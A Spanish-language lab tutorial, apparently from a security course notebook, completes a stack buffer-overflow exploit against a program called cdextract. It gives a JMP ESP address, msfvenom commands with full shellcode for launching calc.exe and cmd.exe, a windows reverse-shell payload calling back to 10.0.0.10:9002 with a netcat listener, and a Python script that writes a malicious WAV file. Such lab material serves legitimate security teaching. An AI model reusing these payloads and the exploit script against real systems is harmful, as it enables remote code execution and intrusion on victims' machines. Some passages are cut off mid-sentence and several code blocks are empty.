




# Buffer Overflow: La Explotación

  

## Resumen del punto de partida

  

En la práctica anterior identificamos la vulnerabilidad de buffer overflow en el programa **cdextract** y calculamos que el tamaño del buffer es de **4112 bytes**. Verificamos que, enviando 4112 "A"s seguidas de 4 "B"s, controlamos exactamente el registro EIP con el valor `42424242`.

  

Ahora completamos el proceso de explotación: identificaremos los bad characters, localizaremos una instrucción `JMP ESP` en el binario y construiremos el exploit final con un payload real.

  

## Identificando Bad Characters

  

Cuando un buffer overflow se explota enviando un payload (shellcode) a través de un campo de entrada, ciertos bytes pueden ser interpretados de forma especial por el programa o por el sistema operativo, truncando o corrompiendo el shellcode antes de que llegue a ejecutarse. Estos bytes problemáticos se denominan **bad characters**.

  

El más común es siempre el byte nulo `\x00`, ya que en C y C++ actúa como terminador de cadena y detiene la copia de datos. Otros bad characters frecuentes son `\x0a` (salto de línea) y `\x0d` (retorno de carro), dependiendo del programa.

  

Con ERC generamos un bytearray completo de todos los bytes posibles para identificarlos:

  



  

Si queremos excluir el byte nulo desde el principio:

  


  

El proceso consiste en pasar el bytearray a continuación del buffer y el EIP sobreescrito, luego examinar la memoria para detectar si algún byte no aparece o aparece alterado respecto al original.

  
    

En nuestro caso no hay bad characters adicionales, por lo que solo excluiremos `\x00` al generar el payload.

  

  

## Encontrar la instrucción JMP ESP

  

Una vez que controlamos EIP, necesitamos redirigir la ejecución hacia nuestro shellcode. La técnica estándar consiste en sobreescribir EIP con la dirección de una instrucción `JMP ESP` o `CALL ESP` presente en el propio binario o en alguna DLL cargada por él.

  

El razonamiento es el siguiente: cuando la función retorna, EIP se carga con nuestra dirección, se ejecuta el `JMP ESP`, y el procesador salta a lo que haya en la cima de la pila en ese momento, que es exactamente donde habremos colocado nuestro shellcode.

  
    

**Estructura del exploit:** `Buffer (4112 "A"s) + EIP (dirección de JMP ESP) + NOPs + Shellcode`

  

  

### Buscar JMP ESP con ERC

  

Abrimos el software en el debugger y ejecutamos desde ERC:

  



  

Esto muestra la lista de módulos (ejecutable y DLLs) cargados por el programa. Vamos a la pestaña **Symbols**, hacemos doble clic en el ejecutable y pulsamos **CTRL+F**. Buscamos `JMP ESP` o `CALL ESP`:

  



  

Obtenemos 4 direcciones de memoria con esa instrucción. Podemos usar cualquiera de ellas. En nuestro exploit usaremos la dirección `0x00419D0B`.

  
    

La búsqueda de `JMP ESP` también puede realizarse en las DLLs cargadas por el programa, lo que amplía las opciones disponibles.

  

  

## NOPs: instrucciones de relleno

  

Los **NOPs** (*No Operation*, opcode `\x90`) son instrucciones que no realizan ninguna operación: el procesador simplemente avanza a la siguiente instrucción. En el contexto de explotación de buffer overflows se utilizan para crear un **NOP sled** (rampa de NOPs) antes del shellcode.

  

La razón es práctica: pequeñas variaciones en el estado de la pila entre la máquina de laboratorio y el objetivo real pueden hacer que el ESP apunte ligeramente por delante o por detrás del inicio exacto del shellcode. Si anteponemos varios NOPs (habitualmente 16-32 bytes), cualquier salto que aterrice en esa zona "se deslizará" hasta el shellcode y lo ejecutará correctamente.

  

## Generando el Payload con msfvenom

  

El payload es el código que queremos ejecutar en la máquina víctima. Usaremos **msfvenom** desde Kali para generarlo en formato Python, excluyendo los bad characters identificados.

  

### Payload 1: Abrir la calculadora (prueba de concepto)

  

```bash
$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
```

  

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
Payload size: 220 bytes

buf = b""
buf += b"\xbb\xc3\xe3\xaa\xd7\xda\xd6\xd9\x74\x24\xf4\x58"
buf += b"\x2b\xc9\xb1\x31\x31\x58\x13\x83\xe8\xfc\x03\x58"
buf += b"\xcc\x01\x5f\x2b\x3a\x47\xa0\xd4\xba\x28\x28\x31"
buf += b"\x8b\x68\x4e\x31\xbb\x58\x04\x17\x37\x12\x48\x8c"
buf += b"\xcc\x56\x45\xa3\x65\xdc\xb3\x8a\x76\x4d\x87\x8d"
buf += b"\xf4\x8c\xd4\x6d\xc5\x5e\x29\x6f\x02\x82\xc0\x3d"
buf += b"\xdb\xc8\x77\xd2\x68\x84\x4b\x59\x22\x08\xcc\xbe"
buf += b"\xf2\x2b\xfd\x10\x89\x75\xdd\x93\x5e\x0e\x54\x8c"
buf += b"\x83\x2b\x2e\x27\x77\xc7\xb1\xe1\x46\x28\x1d\xcc"
buf += b"\x67\xdb\x5f\x08\x4f\x04\x2a\x60\xac\xb9\x2d\xb7"
buf += b"\xcf\x65\xbb\x2c\x77\xed\x1b\x89\x86\x22\xfd\x5a"
buf += b"\x84\x8f\x89\x05\x88\x0e\x5d\x3e\xb4\x9b\x60\x91"
buf += b"\x3d\xdf\x46\x35\x66\xbb\xe7\x6c\xc2\x6a\x17\x6e"
buf += b"\xad\xd3\xbd\xe4\x43\x07\xcc\xa6\x09\xd6\x42\xdd"
buf += b"\x7f\xd8\x5c\xde\x2f\xb1\x6d\x55\xa0\xc6\x71\xbc"
buf += b"\x85\x39\x38\x9d\xaf\xd1\xe5\x77\xf2\xbf\x15\xa2"
buf += b"\x30\xc6\x95\x47\xc8\x3d\x85\x2d\xcd\x7a\x01\xdd"
buf += b"\xbf\x13\xe4\xe1\x6c\x13\x2d\x82\xf3\x87\xad\x6b"
buf += b"\x96\x2f\x57\x74"
```

  

### Payload 2: Abrir una CMD

  

```bash
$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'
```

  

```bash
Payload size: 219 bytes

buf = b""
buf += b"\xbe\xd7\x37\x4d\xe1\xdb\xc9\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x31\x31\x72\x12\x83\xea\xfc\x03\xa5"
buf += b"\x39\xaf\x14\xb5\xae\xad\xd7\x45\x2f\xd2\x5e\xa0"
buf += b"\x1e\xd2\x05\xa1\x31\xe2\x4e\xe7\xbd\x89\x03\x13"
buf += b"\x35\xff\x8b\x14\xfe\x4a\xea\x1b\xff\xe7\xce\x3a"
buf += b"\x83\xf5\x02\x9c\xba\x35\x57\xdd\xfb\x28\x9a\x8f"
buf += b"\x54\x26\x09\x3f\xd0\x72\x92\xb4\xaa\x93\x92\x29"
buf += b"\x7a\x95\xb3\xfc\xf0\xcc\x13\xff\xd5\x64\x1a\xe7"
buf += b"\x3a\x40\xd4\x9c\x89\x3e\xe7\x74\xc0\xbf\x44\xb9"
buf += b"\xec\x4d\x94\xfe\xcb\xad\xe3\xf6\x2f\x53\xf4\xcd"
buf += b"\x52\x8f\x71\xd5\xf5\x44\x21\x31\x07\x88\xb4\xb2"
buf += b"\x0b\x65\xb2\x9c\x0f\x78\x17\x97\x34\xf1\x96\x77"
buf += b"\xbd\x41\xbd\x53\xe5\x12\xdc\xc2\x43\xf4\xe1\x14"
buf += b"\x2c\xa9\x47\x5f\xc1\xbe\xf5\x02\x8c\x41\x8b\x39"
buf += b"\xe2\x42\x93\x41\x53\x2b\xa2\xca\x3c\x2c\x3b\x19"
buf += b"\x79\xc2\x71\x03\x28\x4b\xdc\xd6\x68\x16\xdf\x0d"
buf += b"\xae\x2f\x5c\xa7\x4f\xd4\x7c\xc2\x4a\x90\x3a\x3f"
buf += b"\x27\x89\xae\x3f\x94\xaa\xfa\x5c\x77\x31\x2b\xc7"
buf += b"\xff\xdc\x33"
```

  

### Payload 3: Reverse shell a nuestra máquina Kali

  

```bash
$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=IP LPORT=PORT -f 'python'
```

  

```bash
# Ejemplo con IP 10.0.0.10 y puerto 9002:
$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.0.0.10 LPORT=9002 -f 'python'

Payload size: 324 bytes

buf = b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
buf += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
buf += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
...
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
```

  

En Kali, preparamos el listener antes de lanzar el exploit:

  

```bash
$ sudo ip addr add 10.0.0.10/24 dev eth0
$ nc -lvnp 9002
```

  

## Creando el exploit

  

Tenemos todos los ingredientes. Nuestro exploit final tiene la siguiente estructura:

  
    

**Buffer** (4112 "A"s) + **EIP** (dirección de JMP ESP) + **NOPs** (32 bytes de `\x90`) + **Payload** (shellcode)

  

  

Usamos el siguiente script Python para generar el archivo WAV malicioso:

  

```bash
from struct import *

def exploit():
    # Payload generado con msfvenom
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    buf += b"\xbb\xc3\xe3\xaa\xd7..."  # shellcode completo aquí
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A" * offset

    # Dirección de JMP ESP en little-endian
    eip = pack('<L', 0x00419D0B)

    # NOP sled para aumentar la fiabilidad
    nop = b"\x90" * 32

    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

  



  

Una vez generado el archivo `exploit.wav`, lo abrimos directamente desde **cdextract** (ya no es necesario hacerlo a través del debugger). Si el exploit es correcto, el payload se ejecutará: la calculadora se abrirá, o la CMD aparecerá, o recibiremos la reverse shell en Kali.

  
    

**Nota sobre little-endian:** La instrucción `pack('

  

### Utilidad: comando awk

  

Para formatear el shellcode generado por msfvenom y añadir el prefijo de bytes Python:

  

```bash
$ awk '{print "b" $0}' archivo.txt
```

  

## 📚 Navegación

  

    [← Anterior: La Vulnerabilidad]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/11a - Buffer Overflow - Práctica 1 - Identificación de la Vulnerabilidad|11a - Buffer Overflow 1 - Análisis]])
    [↑ Volver al Índice]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
